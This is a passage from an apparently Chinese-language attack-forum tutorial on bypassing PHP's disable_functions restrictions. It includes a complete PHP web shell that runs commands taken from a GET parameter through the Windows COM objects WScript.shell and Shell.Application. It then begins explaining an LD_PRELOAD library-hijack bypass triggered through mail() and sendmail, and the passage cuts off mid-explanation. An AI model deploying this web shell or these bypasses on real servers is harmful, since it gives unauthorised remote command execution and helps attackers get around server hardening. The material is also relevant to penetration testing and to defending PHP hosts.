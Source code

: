 观察php.ini 中的 disable\_function 漏过了哪些函数，若存在漏网之鱼，直接利用即可。

利用Windows组件COM绕过
----------------

查看`com.allow_dcom`是否开启,这个默认是不开启的。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-7771bdcf3afa5556110bd63e0466d944557d46a8.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-7771bdcf3afa5556110bd63e0466d944557d46a8.png)

创建一个COM对象,通过调用COM对象的`exec`替我们执行命令

```php
<?php
$wsh = isset($_GET['wsh']) ? $_GET['wsh'] : 'wscript';
if($wsh == 'wscript') {
    $command = $_GET['cmd'];
    $wshit = new COM('WScript.shell') or die("Create Wscript.Shell Failed!");
    $exec = $wshit->exec("cmd /c".$command);
    $stdout = $exec->StdOut();
    $stroutput = $stdout->ReadAll();
    echo $stroutput;
}
elseif($wsh == 'application') {
    $command = $_GET['cmd'];
    $wshit = new COM("Shell.Application") or die("Shell.Application Failed!");
    $exec = $wshit->ShellExecute("cmd","/c ".$command);
} 
else {
  echo(0);
}
?>
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-f6e936a40e4302e8c33b996e973ec29907af58a0.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-f6e936a40e4302e8c33b996e973ec29907af58a0.png)

利用Linux环境变量LD\_PRELOAD
----------------------

### 初阶

```php
LD_PRELOAD是linux系统的一个环境变量，它可以影响程序的运行时的链接，它允许你定义在程序运行前优先加载的动态链接库。
```

总的来说就是=`LD_PRELOAD`指定的动态链接库文件，会在其它文件调用之前先被调用，借此可以达到劫持的效果。

思路为:

1. 创建一个.so文件,linux的动态链接库文件
2. 使用putenv函数将`LD_PRELOAD`路径设置为我们自己创建的动态链接库文件
3. 利用某个函数去触发该动态链接库

这里以`mail()`函数举例。  
在底层c语言中,`mail.c`中会调用`sendmail`，而sendmail\_path使从ini文件中说明
